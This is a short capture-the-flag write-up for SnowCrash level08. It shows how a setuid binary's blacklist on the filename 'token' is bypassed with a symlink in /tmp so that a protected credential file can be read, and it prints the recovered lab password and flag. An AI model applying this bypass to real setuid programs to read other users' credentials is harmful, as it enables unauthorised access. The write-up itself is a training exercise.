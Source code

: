 ## level08

1. Check files in current working directory (home dir)
    - `-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08*`
    - `-rw-------  1 flag08  flag08    26 Mar  5  2016 token`

We can't read the `token` file, only `flag08` can.

Executing the binary `level08` gives us this :

```bash
$ ./level08
./level08 [file to read]
```

This seems a bit easy, let's try to read the `token` file :

```bash
$ ./level08 token
You may not access 'token'
```

Trying to read a file in `/tmp/` works. Trying to read a file in `/home/user/level08` for which the user `flag08` has no permissions doesn't work either, but in these cases, the binary tells us it doesn't have the permissions to read the file.

So is the file `token` blacklisted? If we try to read the file `tokena` or `tokenaa` or even `tokenAAAAAAAAAAAAAAAAAAAAAAAaaaAAAAAAAaaaAAAA` it tells us that we are unable to access it.

But, reading the file `tokeN` works. So the binary is case sensitive, and the string `token` is blacklisted. In fact, any string containing `token` is blacklisted.

On unix system there's a way of reading file but not using their real name, using symlinks.

```
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/tok
level08@SnowCrash:~$ cat /tmp/tok
cat: /tmp/tok: Permission denied
level08@SnowCrash:~$ ./level08 /tmp/tok
quif5eloekouj29ke0vouxean
```
use `quif5eloekouj29ke0vouxean` to  login to flag08 user

flag -> 25749xKZ8L7DkSCwJkT9dyv6f